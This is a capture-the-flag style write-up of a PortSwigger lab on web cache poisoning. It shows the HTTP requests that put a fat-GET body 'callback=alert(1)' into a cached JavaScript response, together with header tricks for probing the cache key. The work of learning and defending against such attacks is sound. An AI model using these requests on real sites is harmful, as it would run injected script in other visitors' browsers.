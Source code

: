 
# Web cache poisoning via a fat GET request

This lab is vulnerable to web cache poisoning. It accepts GET requests that have a body, but does not include the body in the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser.


---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/1.png)

---------------------------------------------

We can find the “Origin” header can work as oracle and random query parameters are keyed:

```
GET /?test=ing123 HTTP/2
...
Pragma: x-get-cache-key
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/2.png)


Just like the previous lab, we find a request to “/js/geolocate.js?callback=setCountryCookie” from the home page:



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/3.png)


First we will send the payload with the “Origin” header. We have to add the “X-Http-Method-Override” header so the “alert(1)” gets cached:

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
...
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
```



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/4.png)


Then we check with the “Origin” header and a regular GET request:



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/5.png)


Then we poison the endpoint without the “Origin” header:



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/6.png)


And check with a regular GET request without the “Origin” header:



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/7.png)


Then access “/” and the request to this endpoint generates the alert message:



![img](images/Web%20cache%20poisoning%20via%20a%20fat%20GET%20request/8.png)